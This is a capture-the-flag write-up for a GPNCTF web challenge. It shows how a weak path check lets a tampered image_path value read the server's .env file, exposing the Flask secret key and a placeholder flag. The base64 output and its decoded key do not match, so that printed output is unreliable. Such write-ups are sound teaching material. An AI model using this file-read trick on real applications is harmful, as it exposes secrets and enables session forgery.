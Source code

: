 ## Initial Reconnaissance
in server/setup.py we see
```python
with open(".env", "w") as f:
    f.write(f"FLASK_APP_SECRET_KEY={os.urandom(50).hex()}\n")
    f.write(f"FLAG_STAGE_1={FLAG_STAGE_1}\n")
```
which means that  FLASK_APP_SECRET_KEY and FLAG_STAGE_1 are stored in server/.env


## Insufficient path traversal check
in server/main.py we can see weak image path security
```python
def read_file(path):
    # Prevent reading files outside the allowed directory (.img/).
    if not re.search(r'^\.\w+.*$', str(os.path.relpath(path))):
        return ""
    try:
        with open(path, 'rb') as f:
            content = f.read()
            base64_content = base64.b64encode(content).decode('utf-8')
            return base64_content
    except Exception:
        return ""
```

## Getting flag 1
we can obtain flag 1 by intercepting (using burpsuite for example) new note creation request and changing image_path from __img%2F1.png__ to __.env__ 

after redirect to view_note page, instead of an image we get sth like:
```
data:image/png;base64, RkxBU0tfQVBQX1NFQ1JFVF9LRVk9NGJlZmRhMjNmOTZkNTc1MGNkMWZiNWIxNmVlNWQzNThhOTNiZTI5MzIzNGQ4NWJlMGE0OGVjNWVmNTUxZTNjMmEzZmY0MjRkZGViMDk2YTRmZGE4NGMwZWUwZjU1YjY0OTI1NApGTEFHX1NUQUdFXzE9R1BOQ1RGe2ZsYWdfc3RhZ2VfMV90aGVfcmVhbF9mbGFnX3dpbGxfYmVfb25fdGhlX3Byb3ZpZGVkX2luc3RhbmNlfQo=
```

and after decoding base64 we get flag and flask secret key, which is needed for next flags

```
FLASK_APP_SECRET_KEY=f28e51357c35ab5d7448501a37780c03b886a92064a2a27e6785949bcf606a11b912915834cb7811052dcb39448130258b76
FLAG_STAGE_1=GPNCTF{flag_stage_1_the_real_flag_will_be_on_the_provided_instance}
```


